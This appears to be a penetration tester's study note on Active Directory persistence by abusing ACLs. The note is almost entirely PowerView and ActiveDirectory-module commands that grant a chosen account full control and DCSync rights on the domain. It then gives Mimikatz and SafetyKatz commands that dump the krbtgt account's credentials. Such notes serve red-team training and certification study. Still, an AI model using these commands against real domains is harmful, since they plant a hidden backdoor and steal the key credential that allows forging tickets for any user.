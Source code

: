```yaml
---
tags:
  - persistence
cssclasses:
  - persistence-using-ACLs
  - RACE-toolkit
  - PowerView
  - MimiKatz
aliases:
---
```

This is a persistence mechanism, so it is assumed you have gained high privileges such as Domain Admin.
#### Add FullControl rights

```powershell title:"Add FullControl rights (PowerView)"
Add-DomainObjectAcl -TargetIdentity 'DC=domain,DC=name' -PrincipalIdentity username -Rights All -PrincipalDomain domain.name -TargetDomain domain.name -Verbose
```

```powershell title:"Add FullControl rights (ActiveDirectory Module and RACE)"
Set-ADACL -SamAccountName username -DistinguishedName 'DC=domain,DC=name' -Right GenericAll -Verbose
```
#### Add rights for DCSync

```powershell title:"Add rights for DCSync (PowerView)"
Add-DomainObjectAcl -TargetIdentity 'DC=domain,DC=name' -PrincipalIdentity username -Rights DCSync -PrincipalDomain domain.name -TargetDomain domain.name -Verbose
```

```powershell title:"Add rights for DCSync (ActiveDirectory module and RACE)"
Set-ADACL -SamAccountName username -DistinguishedName 'DC=domain,DC=name' -GUIDRight DCsync -Verbose
```

#### Execute DCSync

```powershell title:"Execute DCSync"
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
```
```batch
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\krbtgt" "exit"
```

